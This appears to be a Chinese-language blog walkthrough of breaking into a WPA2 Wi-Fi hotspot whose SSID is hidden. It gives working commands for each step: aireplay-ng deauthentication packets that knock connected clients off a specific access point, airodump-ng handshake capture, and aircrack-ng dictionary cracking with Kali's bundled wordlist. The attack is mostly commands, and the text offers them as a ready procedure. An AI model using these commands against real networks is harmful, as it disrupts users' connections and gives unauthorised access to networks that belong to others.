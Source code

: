 
## 1. 嗅探


扫描整个网络，寻找可疑项（该热点已关闭SSID广播）：


​


![](https://notion-blog-2wg.pages.dev//api?block_id=17b52bdf-d31a-81aa-b05b-d6e69675332c)


​


发送解除认证包：


```shell
sudo aireplay-ng --deauth 10 -a 74:07:7E:ED:7B:8D wlan0 --ignore-negative-one
```


得ESSID和已连接的客户端MAC值：


​


![](https://notion-blog-2wg.pages.dev//api?block_id=17b52bdf-d31a-815e-8fd6-d58966755240)


​


ESSID:HQL00000000


加密方法：WPA2


打开抓包，抓包文件记为handshake：


```shell
sudo airodump-ng -c 6 --bssid 74:07:7E:ED:7B:8D -w handshake wlan0
```


发送解除认证包，使客户端断开连接，重新与AP握手：


​`sudo aireplay-ng --deauth 10 -a 74:07:7E:ED:7B:8D wlan0 --ignore-negative-one`​


此过程中握手包被抓取并记录。


## 2. 弱口令爆破


利用握手包，使用kali自带的字典进行爆破：


```shell
sudo aircrack-ng -w /usr/share/dict/wordlist-probable.txt -b 74:07:7E:ED:7B:8D -e HQL00000000 handshake-01.cap
```
